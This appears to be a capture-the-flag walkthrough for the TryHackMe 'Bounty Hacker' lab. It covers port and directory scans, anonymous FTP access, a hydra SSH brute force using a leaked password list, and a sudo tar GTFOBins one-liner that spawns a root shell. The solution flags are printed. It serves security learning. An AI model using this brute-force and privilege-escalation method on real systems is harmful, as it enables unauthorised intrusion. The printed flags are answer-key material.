

<head>
<h1><center>Bounty Hacker</center></h1>
</head>

## Description

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!

<br>

## Enumeration

We are provided with the IP of the machine.

### Port Scan

&nbsp;&nbsp;Basic port scan shows that there are three open ports on the machine.

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Port 80

The website contains a picture and quotes by some poeple.


Directory Scan showed nothing useful..


```
/.hta                 (Status: 403) [Size: 277]

/.htpasswd            (Status: 403) [Size: 277]

/.htaccess            (Status: 403) [Size: 277]

/images               (Status: 301) [Size: 313] [--> http://10.10.11.233/images/]

/index.html           (Status: 200) [Size: 969]                                  

/server-status        (Status: 403) [Size: 277]
```


#### Port 21

Here we have anonymous login to FTP.

It has two files 
- locks.txt
- task.txt

locks.txt

```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
 
task.txt

```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

<br>

## SSH

I realized that `locks.txt` possibly contain the password of some user.
I quickly listed out all the possible usernames that I have seen on the website and of course from task.txt

users 

```
spike
jet
ed
faye
lin
```

I then used [hydra](https://www.kali.org/tools/hydra/) to bruteforce the combination.

```
username : lin
passwd   : RedDr4gonSynd1cat3
```

After logging in we find user flag in lin's home directory.

```
THM{CR1M3_SyNd1C4T3}
```

<br>

##  Privilege Escalation

Basic enumeration `sudo -l` showed that user lin can run `/bin/tar` as root..🤩

Heading over to GTFObins gave this command 

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This gives us the root shell..💀

root flag

```
THM{80UN7Y_h4cK3r}
```
